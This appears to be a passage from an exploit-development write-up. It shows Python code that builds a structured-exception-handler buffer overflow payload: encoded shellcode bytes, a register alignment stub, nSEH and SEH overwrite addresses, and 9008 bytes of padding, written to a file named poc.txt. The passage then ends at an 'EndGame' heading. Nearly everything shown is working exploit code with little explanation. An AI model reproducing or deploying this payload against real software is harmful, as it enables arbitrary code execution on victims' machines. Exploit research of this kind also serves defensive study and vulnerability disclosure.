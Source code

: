 ```term
buf += b"\x6a\x69\x6d\x58\x62\x6c\x74\x64\x46\x4d\x6b\x39\x49"
buf += b"\x71\x36\x51\x39\x42\x33\x62\x66\x33\x53\x61\x50\x52"
buf += b"\x6b\x4f\x48\x50\x30\x31\x6f\x30\x62\x70\x49\x6f\x42"
buf += b"\x75\x34\x48\x41\x41"

alignment = "\x57\x58\x54\x58" # PUSH EDI, POP EAX / PUSH ESP, POP EAX
alignment += "\x66\x05\x7C\x06" # add ax, 0x67c

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10031779)

buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 5 + alignment + "\x41\x49" * 11 + buf + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

# EndGame

![](/assets/img/Alignments/9.png)
